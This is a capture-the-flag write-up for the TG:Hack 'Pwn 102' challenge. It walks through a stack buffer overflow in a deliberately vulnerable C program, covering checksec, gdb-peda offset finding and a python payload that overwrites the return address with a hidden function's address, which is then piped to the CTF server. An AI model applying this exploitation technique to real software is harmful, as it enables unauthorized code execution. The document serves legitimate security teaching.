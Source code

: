 # Writeup [Pwn 102](./README.md)

For every pwn-task it is a good idea to start by checking the security mechanisms in your program. 
I use [gdb-peda](insert link to tips&tricks page here) for debugging and use its tools. 
I open the executable file in gdb-peda by entering `gdb ./pwn102` in the terminal. 
To find the security mechanism, I use **checksec** i gdb-peda:
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

The output above tells us that all security mechanisms are turned off. Usually, when all of these are turned off, the task is a normal _buffer overflow_. In this task, that fact was provided, but this is useful information for other pwn tasks.

First, lets take a look the source code (provided in the snippet below) and try to find the vulnerability. There are a couple of things to notice:
* We have a buffer called **name** with room for 20 characters. 
* We have used the read() function to read input data from the terminal, 
which allows the first 64 characters to be read into the program, all other characters will be ignored. 
* There is a function called **supersecret** that use the `system()` function to paste the terminal command `cat flag.txt`. 
Obviously (or maybe not if you haven't seen this before), this command pastes the content of a file called **flag.txt**. 
Oh wait, this function is not used in the program, is it? What if we somehow manipulate the program to run this function?

```C
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

void supersecret(void)
{
	system("cat flag.txt");
}

int main(void) 
{
	char name[20];

	setvbuf(stdout, NULL, _IONBF, 0);
	printf("Welcome hackerman!\nPlease enter your secret password to go back in time: ");

	read(STDIN_FILENO, name, 64);

	return 0;
}
```

Alright then, lets check out what the executable does:
```
$ nc pwn102.tghack.no 1062
Welcome hackerman!
Please enter your secret password to go back in time: marito_o_is_awesome
```
The executable accepts our input and simply terminates. But there's a security
issue here, which will help us trick the executable into doing something
else. The issue is that the program will happily read and store up to 64
characters, but only has reserved space for 20 characters. This overflowing of characters
is the buffer overflow vulnerability. Or even more specific, this is a stack overflow
vulnerability. We don't need a debugger to take advantage of this, but let's open 
gdb-peda and see what we can do.

> TIP: It is normal to use the capital letter `A` as input, to easily find it in the stack later. 
We may recognize the letter by its hexadecimal representation, `40`, in the debugger. 
Sometimes it comes in handy to use `B` as well, which has the hexadecimal representation of `42`. 
You should keep in mind that `0a` is the hex code for line break, meaning when you press the enter-button.

Now, open the executable in gdb-peda, and insert lots of A's, 
in order to find out exactly where in the program it crashes. 
You may run the executable with input by entering `r <<< [your input here]` into the debugger. 
I use python to insert thirty A's into the debugger:
```
gdb-peda$ r <<< `python2 -c 'print "A"*30'`
```

With thirty characters, everything seems to run just fine. After trying a bit, 
we figure out that the program exits normally when having a 31 character input. 
However, using a 32 characters input makes the program fail by a `Segmentation Fault`, 
or commonly called a `segfault`. The debugger outputs `Stopped reason: SIGSEGV` to 
tell that the program segfaulted, and the memory address which caused the program to segfault, 
as the snippet below presents. We can also see that 
our input characters have overwritten three bytes of the return address (two A's and 
a newline). In the snippet, we used 34 characters. 
We know that the memory address in the snippet below is the return address of the program. 
We know that because every function has a return address, 
and there are no functions called except the `main()` function which starts the program.
A method to check that it really is the return address that is overwritten, 
is to make the code stop at the last instruction of the `main()` function in gdb-peda.
The program will stop at this instruction when running the program, and the memory address is shown in gdb-peda. 
The code may be stopped by putting entering a breakpoint. See the help at our [tips&tricks page](insert link to tips&tricks page here).

```
Stopped reason: SIGSEGV
0xf70a4141 in ?? ()
gdb-peda$ 
```

> TIP: To see what will end up as the return address, you can set a breakpoint at the return address of the main function. 
Whenever you run the program, it stops at the breakpoint, 
and gdb-peda shows the new return address at the top of the stack (see the top of the snippet below). 
The command for entering a breakpoint is `gdb-peda$ b *0x08048559`. 
Find the return address by disassembling the function with `gdb-peda$ disas main`. 
You have to look for the assembly instructon `ret` in the bottom of the disassembly 
of the main function and the memory address to the left of it is the address to put a breakpoint on. 
When your program stops at a breakpoint, you may continue running the program by writing `gdb-peda$ c`.

```
[------------------------------------stack-------------------------------------]
0000| 0xffffd0dc --> 0xf70a4141 
0004| 0xffffd0e0 --> 0x1 
0008| 0xffffd0e4 --> 0xffffd174 --> 0xffffd33a ("/some/path/to/your/executable/pwn102")
0012| 0xffffd0e8 --> 0xffffd17c --> 0xffffd370 ("SOMESTUFFHERE/something/stuff")
0016| 0xffffd0ec --> 0x0 
0020| 0xffffd0f0 --> 0x0 
0024| 0xffffd0f4 --> 0x0  
0028| 0xffffd0f8 --> 0xf7fb2000 --> 0x1afdb0 
[------------------------------------------------------------------------------]
```

As we know where the program segfaults, we should overwrite the return address. 
Lets put some B's in there as well, in order to find out exactly which four bytes 
that will overwrite the return address of the main function. 
This is a matter of trying and failing and then ending up with the following snippet. 
```
gdb-peda$ r <<< `python2 -c 'print "A"*32 + "BBBB"'`
```
```
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 

```
Now we see that the return address contains our four B's (because the hex representation of B is 42). 
The magic now is that we know exactly where to put the memory address to our **supersecret** function, 
it should overwrite the return address we just overwrote with the B's. 
But we need to find the memory address to the supersecret function which we want to manipulate the program to run. 
As we know the name of the function, its easy peasy to find it in gdb-peda by either of these commands:
* `gdb-peda$ p supersecret`
* `gdb-peda$ disas supersecret`, in which you choose the first memory address in the disassembled code.

Both returns this memory address: `0x080484b0`.

Alright, we're almost finished! Let's replace the B's that was placed exactly over the return address with the hex representation of the memory address to the supersecret function:
```
gdb-peda$ r <<< `python -c 'print "A"*32 + "\xb0\x84\x04\x08"'`
```
> NOTE: We have to write the address backwards because of the usage of little endian. 
Endiannes refers to the order in which all bytes are stored in memory. 
Little endian means that all the bytes are stored in the reversed order. 
You may read more about endiannes in [this Wikipedia page](https://en.wikipedia.org/wiki/Endianness).

Which gives us the flag, or the dummy-flag in the flag.txt file you made, as you are debugging now: 
```
gdb-peda$ r <<< `python -c 'print "A"*32 + "\xb0\x84\x04\x08"'`
Starting program: /some/path/to/pwn102 <<< `python -c 'print "A"*32 + "\xb0\x84\x04\x08"'`
Welcome hackerman!
Please enter your secret password to go back in time: [New process 26892]
process 26892 is executing new program: /bin/dash
[New process 26893]
process 26893 is executing new program: /bin/cat
TG18{Dummy flag for debugging purposes}
[Inferior 3 (process 26893) exited normally]
```

NOW! This should be it, lets test our exploit by piping it to the server. This needs a few changes to work with bash.
```
$ python -c 'print "A"*32 + "\xb0\x84\x04\x08"' | nc pwn102.tghack.no 1062
Welcome hackerman!
Please enter your secret password to go back in time: TG18{n0w_u_kn0w_basic_pwning}
``` 
Hellz yeah! We did it!

**Fact:** Buffer overflows was publicly documented as early as in 1972. 
It is not as big a threat anymore. Stack buffer overflow, also called stack overflow, 
is the type of buffer overflow we have exploited in this task. 
Stack overflow is no longer a major threat, and most systems have protection against this vulnerability nowadays.

Do you want to read more about buffer overflows? [Read this.](https://en.wikipedia.org/wiki/Buffer_overflow)
